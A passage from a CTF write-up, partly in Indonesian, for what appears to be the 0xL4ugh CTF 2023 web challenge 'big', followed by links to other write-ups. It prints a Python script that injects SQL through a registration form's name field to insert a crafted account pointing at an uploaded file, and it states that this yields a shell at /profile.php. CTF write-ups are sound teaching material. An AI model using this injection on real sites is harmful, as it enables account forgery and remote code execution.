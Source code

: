 ```python 
import requests
from hashlib import md5

# URL = "http://20.121.121.120:3000/big/"
URL = "http://localhost/big/"

def req(payload, url=URL):
    res = requests.post(url+"reg.php", data={
        "name": payload,
        "email": "test@aasssddsd.com",
        "pass": "test",
        "re_pass": "test",
        "signup": "Register"
    })
    return res.text

a = f"dormamu','dormamu@dormamu','{md5(b'dormamu@dormamu').hexdigest()}','file:///var/www/html/big/up/ef2baba2-a5d5-4669-b22d-cdcf2fd13c8a.jpg');#"
print(req(a))
```

Kita jalankan dan login menggunakan akun tersebut, maka sekarang kita akan mendapatkan Shell di path `/profile.php`.

![](https://i.imgur.com/Lt1mjsr.png)

# External writeup
---
A brief proof of concept from 0xL4ugh CTF 2023's forensic problems

By: hanasuru [link](https://gist.github.com/hanasuru/25d13a7432c417945ee5330329c8e0f8/raw/ded087cc04c8665bfe02717c7d85768e8e8862fa/0xL4ugh_Forensic_PoC.md)

---

https://github.com/daffainfo/ctf-writeup/tree/main/0xL4ughCTF%202023
- Web - Bruh
- Web - Bruh 2
- Web - Bypass 403
- Web - bypasser
- Web - XSS 1
- Steganography - Colorful
- Osint - El bes

https://hackmd.io/@TuX-/BkWQh8a6i
- Wanna Series Volatility 3 ver. + python script extract .ad1
- dll
late post.


